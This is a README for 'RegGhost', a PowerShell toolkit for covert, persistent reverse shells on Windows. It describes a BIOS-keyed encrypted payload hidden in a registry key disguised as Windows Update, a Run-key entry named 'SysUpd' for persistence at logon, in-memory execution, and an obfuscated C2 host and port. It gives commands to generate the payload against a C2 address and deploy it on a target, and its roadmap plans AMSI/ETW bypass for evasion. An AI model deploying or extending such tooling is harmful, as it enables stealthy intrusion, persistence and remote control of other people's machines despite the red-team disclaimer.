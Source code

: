 # RegGhost

![Phantom Key Logo](logo.png)

RegGhost is a compact, two-stage PowerShell toolkit for stealthy, machine-bound reverse shells on Windows. It uses BIOS-derived XOR encryption, in-memory C# compilation, and registry-based persistence—leaving no payload files on disk.

---

## 🛠️ Features

1. **Two-Stage Architecture**

   * **Setup Stage** (`smaller_setup.ps1`)

     * Reads a Base64-encoded C# payload (with injected, obfuscated C2 host/port).
     * XOR-encrypts the payload using the BIOS serial (via `(Get-WmiObject Win32_BIOS).SerialNumber.Trim()`).
     * Stores ciphertext under `HKCU:\Software\WindowsUpdate\DataCache`.
     * Creates a `Run`-key entry (`SysUpd`) that launches an encoded PowerShell stub at logon—no `.ps1` files remain on disk.
   * **Execution Stage** (`small_execute.ps1`)

     * Retrieves and decrypts the registry blob in memory.
     * Compiles the C# source via `Add-Type -TypeDefinition`.
     * Executes the auto-detected payload class (`<YourClass>::Start()`) in a persistent reverse-shell loop.

2. **Host & Port Obfuscation**

   * Host segments and port are Base64-encoded and reconstructed at runtime, hiding cleartext networking details in the script.

3. **Machine-Bound Encryption**

   * Encryption key derived from BIOS serial number ensures the payload only runs on the target host.

4. **Minimal Footprint**

   * No additional binaries or files on disk beyond the one-line setup stub.
   * Outputs organized into randomly named phonetic folders (Alpha, Bravo, Charlie, etc.).

---

## 📂 Components

* **`smaller_setup.ps1`**

  * One-liner that encrypts and stores the C# payload in the registry and sets up persistence.

* **`small_execute.ps1`**

  * One-liner that decrypts, compiles, and launches the reverse-shell in memory.

* **`generate_shell.py`**

  * Python CLI for host/port injection, obfuscation, and registry integration.
  * Usage:

    ```bash
    python generate_shell.py -H <C2_IP> -P <PORT> [-f <payload.cs>]
    ```
  * Creates a new `<PhoneticName>/` folder containing both PS1 scripts.

---

## ⚙️ Usage

1. **Generate Payload**

   ```bash
   python generate_shell.py -H 10.10.14.1 -P 4444
   ```

   * Reads `payload.cs`, injects and obfuscates host/port, encrypts payload, and writes `smaller_setup.ps1` and `small_execute.ps1` into a new folder.

2. **Deploy on Target**

   ```powershell
   .\Alpha\smaller_setup.ps1
   ```

   * Installs encrypted payload and persistence via registry—no scripts left on disk.

3. **Automatic Execution**

   * On the next user logon, the Run-key stub runs, decrypts payload in memory, and establishes the reverse shell.

4. **Manual Testing**

   ```powershell
   .\Alpha\small_execute.ps1
   ```

   * Runs the decrypted payload immediately (useful for staging or validation).

---

## 🚧 Limitations & Roadmap

* **Encryption Strength**: Swap XOR for AES-CBC with a random IV for improved confidentiality.
* **Fallback Persistence**: Add Scheduled Tasks or WMI Event Subscription options if Run-key is unavailable.
* **Evasion Techniques**: Integrate AMSI/ETW bypass or further code obfuscation (e.g., `Invoke-Obfuscation`).
* **Logging & Debugging**: Implement silent error logging to the Event Log or hidden file for reliability.

---

## 📄 License

This project is licensed under the MIT License. See [LICENSE.md](LICENSE.md) for details.

---

*⚠️ For educational and authorized red-team use only.*
